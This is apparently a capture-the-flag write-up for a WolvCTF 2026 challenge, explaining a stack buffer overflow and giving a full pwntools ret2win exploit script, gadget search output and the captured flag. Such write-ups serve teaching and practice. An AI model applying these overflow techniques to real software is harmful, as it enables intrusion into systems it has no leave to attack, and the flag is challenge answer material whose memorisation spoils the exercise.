

## Overview
```
Arch:       amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x400000)
Stripped:   No
```

---
## Vulnerability
The vulnerability present in this challenge was a Buffer Overflow. It creates a buffer with the size of 64 bytes but reads in 256 bytes, therefore overflowing it.



---
## Exploit Development
The program includes a function named `dispatcherOverride()` that prints the flag, so we must call that. In order to reach the instruction pointer we can send 72 bytes of padding in order to fill the buffer (64 bytes) + saved RBP (8 bytes). This overflow is not affected by the stack canary because it is not placed between our input and the instruction pointer.

During the exploit development of this challenge, I encountered a movaps misalignment issue, which has a simple fix of just re-aligning the stack with a `ret` gadget

```bash
bird ➜ ~/.../WOLVCTF_2026/bustracker $ ROPgadget --binary ./chal | grep ret
[ ... SNIP ... ]
0x000000000041f715 : rep stosq qword ptr [rdi], rax ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040101a : ret
0x0000000000402b3c : ret 0
[ ... SNIP ... ]
```
- `ret` gadget at `0x40101a`. 

---
## Final Pwn

```python
from pwn import *

BINARY = "./chal"
elf = context.binary = ELF(BINARY, checksec=False)

GDBSCRIPT="""
b *main
c
"""

def start():
    if args.GDB:
        return gdb.debug(BINARY, gdbscript=GDBSCRIPT)
    elif args.REMOTE:
        return remote("bus-tracker.wolvctf-2026.kctf.cloud", 1337)
    return process([BINARY])

io = start()

payload = b"A" * 72
payload += p64(0x000000000040101a) + p64(elf.symbols["dispatcherOverride"])

io.sendafter(b"Enter your stop name:", payload)
io.interactive()
```
```
wctf{bus_ni9davhafgyy8iqq}
```